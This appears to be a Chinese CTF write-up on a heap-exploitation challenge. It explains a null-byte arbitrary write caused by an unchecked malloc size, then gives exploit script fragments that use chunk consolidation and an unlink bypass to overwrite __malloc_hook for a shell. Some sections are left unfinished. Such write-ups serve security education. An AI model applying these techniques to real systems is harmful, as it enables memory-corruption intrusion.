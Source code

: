 # 零碎的知识点
### 1.main_arena 与 t_arena
malloc一个很当的空间时，int_malloc会返回null<br>
从而去调用arena_get_retry分配新的arena，再次尝试去分配内存，当然最后分配也是失败的<br>
一旦分配了新的arena，之后的堆操作会使用这个arena进行操作，可以参考arena_get函数<br>
新的arena的查看，p &main_arena->next 就可以找到新的arena的地址，进行查看
![t_arena](img/t_arena.png)<br>

# 题目分析
menu题目<br>
![menu](img/menu.PNG)<br>
### 漏洞点
漏洞点在new_note的malloc地方，malloc的size没有被限制，也没有校验malloc的返回值<br>
导致`*((_BYTE *)qword_202050[v1] + size - 1) = 0;`，任意地址写0<br>
![vuln](img/vuln.PNG)<br>


## 总体思路
1.chunk块在free和malloc的时候没有对立面的内容进行清空，所以很容易可以泄露出main_arena的地址,进而获取libc的基址<br>
2.由于要使用任意地址写0这个操作，必定要malloc(big_size)，后续的操作都会在t_arena上进行。所以先将chunk移到t_arena上，然后泄露t_arena的基址<br>
3.这个题目，总共找到了五种解题方法（getshell或者成功写malloc_hook视为解题成功）<br>
3.1.这个题目一共只能申请三个chunk，使用chunka、chunkb、chunkc代替。思路为使用chunkb修改chunkc的pre_size，pre_size覆盖chunka,chunkb。然后将chunkc的inuse位写0,free(chunkc)达到conslidate(chunka+chunkb+chunkc)的目的，此时chunk







## 具体利用
### 1+2.前面的利用基址就不详细说了
### 3.1.free(chunkc) && conslidate(chunka+chunkb+chunkc)
使用chunkb去写chunkc的pre_size,chunkd防止top chunk和chunkc合并了，此时chunka和chunkc都挂在unsortedbin上。
```
  new(0,0x98,'A'*0x97)
  new(1,0x68,'B'*0x60+p64(0x140))
  new(2,0xf0,'C'*0xef)

  #like off-by-one-null
  delete(1)
  new(1,0x30,'D'*0x30)
  delete(2)
  delete(0)
  new(2,0x68,'B'*0x67)
```
![3.1.1](img/3.1.1.PNG)<br>
chunkc在in use的情况下，size的值是105，因为是mmap分配的，free的情况下是101,此时将chunkc(freed)的in use位写0<br>
将chunkc malloc回来，然后在free，触发consolidate，在0x7ffff00008b0的地方有一个size=0x241大小的chunk挂在unsortedbin上<br>
之后申请都会先从这个chunk里面切割，last chunk。
```
  new(0,heap_addr-0x78+0x9f8+1,'')
  new(0,0xf0,'C'*0xef)
  delete(0)
```
![3.1.2](img/3.1.2.PNG)<br>
此时chunkabc就能够写chunkb了，此时可以单独free(chunkb)，然后去写chunkb的fd，就可以将malloc_hook附近的地址放进chunkb的fd<br>
```
  delete(2)
  malloc_hook=main_arena-0x78+5-0x18
  new(0,0xe0,0xc0*'a'+p64(0)+p64(0x74)+p64(malloc_hook))
```
![3.1.3](img/3.1.3.PNG)<br>
new两次，将malloc_hook附近的地址new出来就可以修改内容了，填成one_gadget getshell<br>
```
  new(2,0x68,'')
  delete(1)
  new(1,0x68,'A'*19+p64(0xdeedbeef))
```
![3.1.4](img/3.1.4.PNG)<br>
### 3.2.free(chunka) && conslidate(chunka+chunkb)
这种方式和第一种类似，不过这里要绕过unlink里面double-linked list的机制<br>
第一种方式里面自带了合法的fd和bk，所以不需要特意构造fd和bk绕过double-linked机制<br>
这种解法要自己构造chunkb的fd+bk，让chunka和chunkb的fd+bk互相指向，来绕过double-linked机制<br>
满足以下条件:
```
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);

```
所以需要在满足double-linked条件下，将chunkc的in use位修改成0，标志着chunkb没有被使用<br>
那么在free(chunka)的时候，就会触发unlink机制，consolidate(chunka+chunkb)
```
  new(0,0x98,'A'*0x98)
  new(1,0x68,p64(0x7ffff00008b0)*2+'B'*0x50+p64(0x70))
  new(2,0xf0,'C'*0xef)
  delete(0)
  new(0,heap_addr-0x78+0x9f8+1,'') 
  new(0,0xc0,p64(0x7ffff0000980)*2+'A'*0xb0)
```
![3.2.1](img/3.2.1.PNG)<br>
chunka+chunkb合并之后放入unsortedbin，作为last chunk，之后申请小于size(chunka+chunkb)的chunk都会切割last chunk<br>
```
  delete(0) #consolidate(chunka+chunkb)
  delete(1)
  malloc_hook=main_arena-0x78+5-0x18
  new(0,0xe0,0xc0*'a'+p64(0)+p64(0x75)+p64(malloc_hook))
```
![3.2.2](img/3.2.2.PNG)<br>
之后将malloc_hook附近的chunk new出来，就可以改写malloc_hook了
```
  new(1,0x68,'')
  delete(0)
  new(0,0x68,'A'*19+p64(0xdeedbeef))
```
![3.2.3](img/3.2.3.PNG)<br>

### 3.3.free(chunka) && conslidate(chunka+chunkb)



































